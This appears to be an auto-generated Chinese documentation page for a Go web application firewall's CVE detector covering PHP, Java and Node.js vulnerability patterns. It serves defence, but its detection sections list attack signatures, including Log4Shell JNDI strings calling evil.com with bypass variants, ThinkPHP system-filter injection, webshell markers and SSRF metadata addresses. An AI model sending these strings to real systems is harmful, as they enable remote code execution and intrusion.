




> [返回 安全防护功能](../../安全防护功能.md)

# 多语言检测器

<cite>
**本文引用的文件**
- [detector.go](file://internal/waf/cve/detector.go)
- [php.go](file://internal/waf/cve/php.go)
- [java.go](file://internal/waf/cve/java.go)
- [node.go](file://internal/waf/cve/node.go)
- [general.go](file://internal/waf/cve/general.go)
- [detector_test.go](file://internal/waf/cve/detector_test.go)
- [phases.go](file://internal/core/rules/phases.go)
- [engine.go](file://internal/core/engine/engine.go)
- [pipeline.go](file://internal/core/pipeline/pipeline.go)
</cite>

## 目录
1. [引言](#引言)
2. [项目结构](#项目结构)
3. [核心组件](#核心组件)
4. [架构总览](#架构总览)
5. [详细组件分析](#详细组件分析)
6. [依赖关系分析](#依赖关系分析)
7. [性能考虑](#性能考虑)
8. [故障排除指南](#故障排除指南)
9. [结论](#结论)
10. [附录](#附录)

## 引言
本文档面向多语言 CVE 检测器的技术实现，系统性阐述 PHP、Java、Node.js 专用检测器的实现原理、检测逻辑与精度控制策略。文档重点关注特征提取方法、漏洞模式匹配算法、检测器如何识别特定语言的漏洞特征（如反序列化、命令注入、代码执行等），以及检测器的配置选项、性能参数和调试方法。同时提供典型检测案例与误报处理策略，帮助开发者与运维人员有效部署与维护该检测体系。

## 项目结构
多语言 CVE 检测器位于 internal/waf/cve 目录，采用"通用检测器 + 语言专用检测器"的分层架构：
- 通用检测器：覆盖跨语言的通用漏洞模式（SSRF、路径穿越、命令注入、代码注入等）
- 语言专用检测器：分别针对 PHP、Java、Node.js 生态的特定漏洞模式
- 检测器编排器：负责协调各检测器执行、规则注册与预过滤

**图表来源**
- [detector.go:14-167](file://internal/waf/cve/detector.go#L14-L167)
- [general.go:733-736](file://internal/waf/cve/general.go#L733-L736)
- [php.go:57-68](file://internal/waf/cve/php.go#L57-L68)
- [java.go:72-83](file://internal/waf/cve/java.go#L72-L83)
- [node.go:59-70](file://internal/waf/cve/node.go#L59-L70)

**章节来源**
- [detector.go:14-167](file://internal/waf/cve/detector.go#L14-L167)
- [general.go:733-736](file://internal/waf/cve/general.go#L733-L736)
- [php.go:57-68](file://internal/waf/cve/php.go#L57-L68)
- [java.go:72-83](file://internal/waf/cve/java.go#L72-L83)
- [node.go:59-70](file://internal/waf/cve/node.go#L59-L70)

## 核心组件
多语言 CVE 检测器的核心组件包括：

### 检测器编排器
CVEDetector 是整个检测体系的中枢，负责：
- 协调通用检测器、PHP 检测器、Java 检测器、Node.js 检测器的执行
- 管理自定义规则与注册表规则
- 实施快速过滤与目标选择策略
- 控制检测器的敏感度与执行顺序

### 通用检测器
GeneralCVEDetector 覆盖跨语言的通用漏洞模式，包括：
- SSRF 检测（内网地址、云平台元数据、本地文件协议）
- 路径穿越（双编码、UTF-8 编码、Windows 反斜杠）
- 命令注入（ShellShock、操作系统命令）
- 代码注入（Java OGNL/SpEL、Node.js 代码执行）
- 远程调用协议（RMI/LDAP/JNDI/JDBC）
- NoSQL 注入（MongoDB 操作符）

### 语言专用检测器

#### PHP 检测器
专门针对 PHP 生态的漏洞模式：
- 反序列化攻击（PHP 对象序列化、流包装器）
- ThinkPHP 远程代码执行
- Laravel Ignition RCE
- Webshell 上传检测
- Drupalgeddon2 RCE
- PHPUnit RCE
- PHP-CGI 参数注入

#### Java 检测器
专注 Java 生态的漏洞模式：
- Log4Shell JNDI 注入（多种绕过变体）
- Spring4Shell 类加载器操纵
- Spring Cloud Function SpEL 注入
- Fastjson 反序列化
- Struts2 OGNL 注入
- Apache Shiro rememberMe 反序列化
- Jackson 反序列化
- Apache OFBiz 认证绕过
- Apache ActiveMQ RCE
- Confluence OGNL 注入

#### Node.js 检测器
针对 Node.js/React 生态的漏洞模式：
- 原型污染（__proto__/constructor.prototype）
- React SSR 注入
- Node.js 命令注入
- Express/Koa 路径穿越
- EJS 模板注入
- vm2 沙箱逃逸
- Next.js SSRF
- React Server Components RCE
- Next.js 中间件绕过
- Next.js Server Actions 路径混淆

**章节来源**
- [detector.go:14-167](file://internal/waf/cve/detector.go#L14-L167)
- [general.go:733-1083](file://internal/waf/cve/general.go#L733-L1083)
- [php.go:57-222](file://internal/waf/cve/php.go#L57-L222)
- [java.go:72-226](file://internal/waf/cve/java.go#L72-L226)
- [node.go:59-239](file://internal/waf/cve/node.go#L59-L239)

## 架构总览
多语言 CVE 检测器在 WAF 引擎的规则管道中作为独立阶段执行，遵循"快速过滤 → 通用检测 → 语言专用检测 → 自定义规则 → 注册表规则"的执行顺序。

**图表来源**
- [detector.go:214-297](file://internal/waf/cve/detector.go#L214-L297)
- [phases.go:300-344](file://internal/core/rules/phases.go#L300-L344)
- [engine.go:56-128](file://internal/core/engine/engine.go#L56-L128)
- [pipeline.go:46-65](file://internal/core/pipeline/pipeline.go#L46-L65)

**章节来源**
- [detector.go:214-297](file://internal/waf/cve/detector.go#L214-L297)
- [phases.go:300-344](file://internal/core/rules/phases.go#L300-L344)
- [engine.go:56-128](file://internal/core/engine/engine.go#L56-L128)
- [pipeline.go:46-65](file://internal/core/pipeline/pipeline.go#L46-L65)

## 详细组件分析

### CVEDetector 编排器
CVEDetector 采用"快速过滤 + 顺序执行"的策略，避免不必要的 goroutine 开销。其关键特性包括：

#### 快速过滤机制
hasCVESuspiciousContent 函数通过检查常见的攻击指示符来快速判断请求是否值得深入检测：
- 特殊字符组合：${}()[]<>\\|;` 等
- 协议与元数据：http://、https://、file://、169.254.169.254、metadata.google
- 漏洞特征：jndi:、__proto__、constructor、child_process、php://
- 反序列化模式：serializ、<sorted-set>、<dynamic-proxy>
- 路径穿越：../、..\\、%2e%2e、%c0%af
- 编码绕过：UTF-7 (+adw-)、URL 编码 (%0d%0a)

#### 目标选择策略
pickTarget 函数根据规则配置选择合适的检测目标：
- url：路径 + 查询参数（解码后）
- body：请求体（解码后）
- header：所有头部值拼接
- cookie：Cookie 头部
- all：所有目标的组合

#### 多层解码机制
multiDecode 函数执行双重 URL 解码，并尝试 Base64 解码：
- 双重 URL 解码：处理 %252e 等多次编码
- Base64 解码：对可能的编码载荷进行解码
- 可打印性检查：确保解码结果为可打印字符

**图表来源**
- [detector.go:299-450](file://internal/waf/cve/detector.go#L299-L450)
- [detector.go:498-517](file://internal/waf/cve/detector.go#L498-L517)
- [detector.go:519-538](file://internal/waf/cve/detector.go#L519-L538)

**章节来源**
- [detector.go:299-450](file://internal/waf/cve/detector.go#L299-L450)
- [detector.go:498-517](file://internal/waf/cve/detector.go#L498-L517)
- [detector.go:519-538](file://internal/waf/cve/detector.go#L519-L538)

### 通用检测器（GeneralCVEDetector）
通用检测器覆盖最广泛的漏洞模式，采用"规则组 + 目标组合"的匹配策略：

#### SSRF 检测规则组
针对不同网络环境的内网探测：
- 10.x/172.16-31.x/192.168.x 内网地址
- localhost/127.0.0.1 本地回环
- 云平台元数据服务：169.254.169.254、metadata.google.internal
- 文件协议访问：file://
- IPv6 本地地址：[::1]
- 0.0.0.0 地址

#### 路径穿越检测规则组
处理各种编码绕过：
- 双重编码：%252e%252e%252f
- UTF-8 编码：.%[cC]0%[aA][fF]
- Windows 反斜杠：..\\
- Null 字节绕过：%00
- 四重点号：....//

#### 代码注入检测规则组
识别不同语言的代码执行模式：
- ShellShock：`() {[^}]*};`
- Java 代码注入：Runtime.getRuntime().exec、ProcessBuilder、Class.forName
- Java OGNL/SpEL：#{T(), ognlUtil、#_memberAccess
- Node.js 命令注入：child_process、exec、spawn、fork

#### HTTP 协议攻击检测规则组
检测常见的 HTTP 协议滥用：
- CRLF 注入：%0d%0a、\r\n
- 请求走私：Content-Length 与 Transfer-Encoding 同时存在
- 头部注入：CRLF 后跟 HTTP/、Content-、Location:
- 代理协议：HTTP/1.0、HTTP/1.1

**章节来源**
- [general.go:747-883](file://internal/waf/cve/general.go#L747-L883)
- [general.go:885-1083](file://internal/waf/cve/general.go#L885-L1083)

### PHP 检测器（PHPCVEDetector）
PHP 检测器专注于 PHP 生态系统的特定漏洞模式：

#### 反序列化检测
识别 PHP 对象序列化攻击：
- 对象序列化模式：O:\d+:"、a:\d+:{
- unserialize 函数调用：unserialize\s*\(
- 流包装器：php://filter、php://input、data://、expect://、phar://

#### ThinkPHP 远程代码执行
检测 ThinkPHP 框架的 RCE 漏洞：
- invokefunction 调用：think\\\\app/invokefunction
- 构造函数注入：_method=__construct.*filter\[\]=system
- 过滤器系统利用：filter\[\]\s*=\s*(system|exec|passthru|shell_exec)

#### Laravel Ignition RCE
检测 Laravel 框架的调试功能滥用：
- 调试端点：_ignition/execute-solution
- 广播类利用：Illuminate\\\\Broadcasting\\\\PendingBroadcast
- 测试类利用：Illuminate\\\\Foundation\\\\Testing

#### Webshell 上传检测
识别恶意文件上传：
- PHP 标签：<\?php
- 命令执行函数：eval、system、exec、passthru、shell_exec
- 恶意扩展：\.php[345s7]?|phtml|pht|phps|phar\b

**章节来源**
- [php.go:70-124](file://internal/waf/cve/php.go#L70-L124)
- [php.go:126-222](file://internal/waf/cve/php.go#L126-L222)

### Java 检测器（JavaCVEDetector）
Java 检测器针对 Java 生态系统的复杂漏洞模式：

#### Log4Shell 检测
检测 Log4Shell JNDI 注入的各种绕过变体：
- 基础模式：${jndi:ldap://evil.com/a}
- 嵌套绕过：${${lower:j}ndi:ldap://evil.com/a}
- 分割绕过：${j${::-n}di:ldap://evil.com/a}、${jn${::-d}i:ldap://evil.com/a}
- URL 编码：%24%7Bjndi:
- 头部检测：检查 HTTP 头部中的 JNDI 模式

#### Spring4Shell 检测
识别 Spring Framework 的类加载器操纵：
- 类加载器操纵：class.module.classLoader
- 数据源配置：spring.datasource
- 资源访问：class.classLoader.resources

#### Spring Cloud Function 检测
检测 SpEL 表达式注入：
- 路由表达式：spring.cloud.function.routing-expression
- Runtime 调用：T(java.lang.Runtime)

#### 反序列化检测
识别各种反序列化攻击：
- Fastjson：@type 装饰器链
- Jackson：polymorphic 类型处理
- Commons Collections：MapEntry、BeanMap 等
- XStream：PriorityQueue、dynamic-proxy

#### 框架特定漏洞
- Struts2：OGNL 表达式注入
- Apache Shiro：rememberMe Cookie 反序列化
- Apache OFBiz：认证绕过
- Apache ActiveMQ：ClassPathXml deserialization
- Confluence：OGNL 表达式注入

**章节来源**
- [java.go:85-130](file://internal/waf/cve/java.go#L85-L130)
- [java.go:132-197](file://internal/waf/cve/java.go#L132-L197)

### Node.js 检测器（NodeCVEDetector）
Node.js 检测器关注现代前端和后端生态的安全威胁：

#### 原型污染检测
识别原型链污染攻击：
- __proto__ 属性污染："__proto__"\s*:
- constructor.prototype 污染：constructor\s*\[\s*"?prototype"?\s*\]
- 数组索引污染：__proto__\[、__proto__=

#### React SSR 注入
检测 React 服务端渲染的安全问题：
- dangerouslySetInnerHTML：dangerouslySetInnerHTML
- Next.js 数据污染：__NEXT_DATA__
- 模板字面量注入：`[^`]*\$\{[^}]+\}[^`]*`

#### 命令注入检测
识别 Node.js 环境下的命令执行：
- child_process 模块：child_process
- require 调用：require\s*\(\s*['"]child_process['"]
- shell 元字符：;\s*(ls|cat|id|whoami|uname|pwd)

#### 路径穿越检测
处理 Node.js 框架的路径穿越：
- 双编码：\.%%2[fF]、\.%%5[cC]
- Windows 反斜杠：\.\\
- 分隔符绕过：\.\\\.\\\.\\\.\\\\

#### 模板注入检测
识别模板引擎的安全问题：
- EJS 注入：<%-?\s*(include|require|process|global|root|console)\b
- 视图选项：settings\s*\[\s*['"]view\s*options

#### 沙箱逃逸检测
识别 vm2 等沙箱的逃逸：
- 构造函数链：this\.constructor\.constructor
- Function 构造：Function\s*\(\s*['"]return\s+process['"]

#### 框架特定漏洞
- Next.js SSRF：x-middleware-subrequest 头部
- React Server Components：RSC Flight 协议 RCE
- Next.js 中间件绕过：x-middleware-subrequest: middleware
- Next.js Server Actions：路径混淆

**章节来源**
- [node.go:72-132](file://internal/waf/cve/node.go#L72-L132)
- [node.go:134-209](file://internal/waf/cve/node.go#L134-L209)

### 规则注册表与自定义规则
检测器支持两种规则类型：

#### 注册表规则
CVERuleRegistry 提供线程安全的规则注册与管理：
- Register：注册颗粒化规则
- ApplyOverrides：应用 JSON 配置的禁用/敏感度覆盖
- DetectAll：执行所有启用的规则

#### 自定义规则
CustomCVERule 支持用户自定义的 CVE 规则：
- Pattern：正则表达式模式
- Target：检测目标（url/body/header/cookie/all）
- Severity：严重程度
- Action：处理动作（drop、block、log）
- Enabled：启用状态

**章节来源**
- [detector.go:74-142](file://internal/waf/cve/detector.go#L74-L142)
- [detector.go:34-50](file://internal/waf/detector.go#L34-L50)
- [detector.go:452-496](file://internal/waf/cve/detector.go#L452-L496)

## 依赖关系分析
多语言 CVE 检测器的依赖关系相对简单，主要依赖于标准库的正则表达式包：

**图表来源**
- [detector.go:3-10](file://internal/waf/cve/detector.go#L3-L10)
- [general.go:3-6](file://internal/waf/cve/general.go#L3-L6)
- [php.go:3-6](file://internal/waf/cve/php.go#L3-L6)
- [java.go:3-5](file://internal/waf/cve/java.go#L3-L5)
- [node.go:3-6](file://internal/waf/cve/node.go#L3-L6)

**章节来源**
- [detector.go:3-10](file://internal/waf/cve/detector.go#L3-L10)
- [general.go:3-6](file://internal/waf/cve/general.go#L3-L6)
- [php.go:3-6](file://internal/waf/cve/php.go#L3-L6)
- [java.go:3-5](file://internal/waf/cve/java.go#L3-L5)
- [node.go:3-6](file://internal/waf/cve/node.go#L3-L6)

## 性能考虑
多语言 CVE 检测器在设计时充分考虑了性能优化：

### 快速过滤机制
- hasCVESuspiciousContent 函数在检测开始前进行快速过滤，避免对正常请求进行昂贵的正则匹配
- 通过检查常见的攻击指示符，绝大多数正常请求会被快速跳过

### 正则表达式优化
- 所有规则在初始化时编译正则表达式，避免运行时编译开销
- 使用 (?i) 标志进行大小写不敏感匹配，减少运行时转换
- 合理使用锚点 (^、$) 和非贪婪匹配，提高匹配效率

### 内存管理
- 使用 sync.RWMutex 保护共享状态，避免不必要的锁竞争
- 通过线程安全的规则注册表管理规则，支持热重载
- 避免在热路径上进行内存分配

### 执行策略
- 采用顺序执行而非并行执行，避免 goroutine 启动/同步开销
- 对于大多数请求不会匹配任何规则的情况，顺序执行更加高效
- 支持按类别敏感度控制，可以完全禁用某些检测器

**章节来源**
- [detector.go:214-297](file://internal/waf/cve/detector.go#L214-L297)
- [detector.go:74-142](file://internal/waf/cve/detector.go#L74-L142)

## 故障排除指南

### 常见问题诊断

#### 检测器未生效
- 检查 CVE 检测阶段是否在规则管道中启用
- 验证 hasCVESuspiciousContent 快速过滤是否正确工作
- 确认 categorySensitivity 配置没有禁用相应的检测器

#### 误报处理
- 调整敏感度级别：通过 categorySensitivity 参数控制检测器的敏感度
- 添加自定义规则：使用 CustomCVERule 添加精确的排除规则
- 使用注册表规则覆盖：通过 CVERuleRegistry.ApplyOverrides 禁用特定规则

#### 性能问题
- 监控正则表达式的匹配次数和耗时
- 检查是否有过多的正则表达式编译
- 评估是否需要禁用某些昂贵的检测器

### 调试方法

#### 单元测试
项目提供了完整的单元测试，可以验证各个检测器的功能：
- TestCVEDetector_PHPDeserialization：测试 PHP 反序列化检测
- TestCVEDetector_Log4Shell：测试 Log4Shell 检测
- TestCVEDetector_SSRF：测试 SSRF 检测
- TestCVEDetector_RecentWebCVEs：测试最新 Web CVE 漏洞检测

#### 日志记录
- 检测器返回的 CVEMatch 结构包含详细的匹配信息
- 可以通过观察匹配的 CVEID、Severity、Description 来调试问题
- 使用 Action 字段区分不同的处理动作（drop、block、log）

**章节来源**
- [detector_test.go:1-311](file://internal/waf/cve/detector_test.go#L1-L311)

## 结论
多语言 CVE 检测器通过"通用检测器 + 语言专用检测器 + 快速过滤"的架构设计，在保证检测精度的同时兼顾了性能效率。检测器能够有效识别 PHP、Java、Node.js 生态系统中的常见漏洞模式，包括反序列化、命令注入、代码执行等高危攻击。通过灵活的配置选项和自定义规则支持，用户可以根据实际需求调整检测策略。完善的测试覆盖和调试方法确保了检测器的可靠性和可维护性。

## 附录

### 配置选项
- categorySensitivity：按类别控制检测器敏感度（none/off 表示禁用）
- 自定义规则：支持正则表达式、目标选择、严重程度和处理动作配置
- 规则覆盖：通过 JSON 配置禁用或调整规则的敏感度级别

### 性能参数
- 快速过滤：hasCVESuspiciousContent 函数的指示符检查
- 正则编译：初始化时一次性编译，运行时复用
- 内存管理：sync.RWMutex 保护共享状态，避免锁竞争
- 执行策略：顺序执行避免 goroutine 开销

### 典型检测案例
- Log4Shell JNDI 注入：支持多种绕过变体检测
- PHP 反序列化：识别对象序列化和流包装器攻击
- ThinkPHP RCE：检测 invokefunction 和过滤器系统利用
- React Server Components RCE：检测 RSC Flight 协议原型链攻击
- Next.js 中间件绕过：检测 x-middleware-subrequest 头部滥用

**章节来源**
- [detector.go:214-297](file://internal/waf/cve/detector.go#L214-L297)
- [detector_test.go:149-280](file://internal/waf/cve/detector_test.go#L149-L280)
